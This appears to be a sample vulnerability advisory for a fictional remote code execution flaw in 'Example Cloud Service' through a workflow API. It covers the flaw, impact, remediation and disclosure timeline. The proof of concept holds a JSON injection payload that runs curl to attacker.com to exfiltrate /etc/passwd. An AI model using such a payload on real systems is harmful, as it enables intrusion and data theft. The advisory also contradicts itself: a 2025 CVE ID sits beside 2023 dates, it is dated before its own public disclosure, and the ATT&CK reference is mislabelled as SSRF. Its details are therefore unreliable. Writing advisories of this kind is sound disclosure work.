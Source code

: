 ```yaml
---
title: "Remote Code Execution in Example Cloud Service"
description: "A critical vulnerability in the Example Cloud API that allows attackers to execute arbitrary code through specially crafted requests."
publishDate: 2023-10-15
cveId: "CVE-2025-XXXXX"
vendor: "Example Corp"
affectedProduct: "Example Cloud Service v4.2-5.1"
severity: "Critical"
patchStatus: "Patched"
patchDate: 2023-11-02
discoveryDate: 2023-09-18
---
```


# Remote Code Execution in Example Cloud Service

## Summary

A critical vulnerability was discovered in Example Cloud Service's API endpoint that processes user input for custom workflows. The vulnerability allows remote attackers to execute arbitrary code by sending specially crafted JSON payloads to the `/api/v2/workflows/execute` endpoint.

## Vulnerability Details

The vulnerability exists due to improper validation of user-supplied JSON data in the workflow execution engine. When processing a workflow configuration, the application passes certain JSON fields directly to an internal eval()-like function without proper sanitization.

Affected versions (4.2-5.1) of the Example Cloud Service fail to properly validate the `customScript` parameter in workflow definitions, allowing attackers to break out of the intended execution context.

## Proof of Concept

The following HTTP request demonstrates the vulnerability:

```http
POST /api/v2/workflows/execute HTTP/1.1
Host: example-cloud.com
Content-Type: application/json
Authorization: Bearer [VALID_TOKEN]

{
  "workflowName": "data-processor",
  "parameters": {
    "customScript": "');process.mainModule.require('child_process').execSync('curl https://attacker.com/exfil/$(cat /etc/passwd)');//"
  }
}
```

This request injects malicious JavaScript code that will be executed on the server, exfiltrating the contents of the `/etc/passwd` file to a remote server controlled by the attacker.

## Impact

Successful exploitation allows attackers to:

1. Execute arbitrary code on the affected server
2. Access sensitive data in the application context
3. Potentially pivot to other systems in the internal network
4. Establish persistence through various techniques

The vulnerability has received a CVSS 3.1 Base Score of 9.8 (Critical).

## Remediation

Example Corp has addressed this vulnerability in version 5.2 of Example Cloud Service by:

1. Implementing strict input validation for all workflow parameters
2. Replacing the eval-based execution engine with a sandboxed execution environment
3. Adding additional security controls to prevent command injection

Users are strongly advised to upgrade to version 5.2 or later as soon as possible.

## Timeline

- **2023-09-18**: Vulnerability discovered during security research
- **2023-09-20**: Initial report sent to Example Corp security team
- **2023-10-01**: Vulnerability confirmed by vendor
- **2023-10-28**: Patch developed and tested
- **2023-11-02**: Patch released in version 5.2
- **2023-11-15**: Public disclosure

## References

1. [Example Corp Security Advisory](https://security.example.com/advisories/2023-11-02)
2. [CVE-2025-XXXXX in National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2025-XXXXX)
3. [MITRE ATT&CK - Server-Side Request Forgery](https://attack.mitre.org/techniques/T1505/)

## Acknowledgements

This vulnerability was discovered and reported by 0daysec security research team.
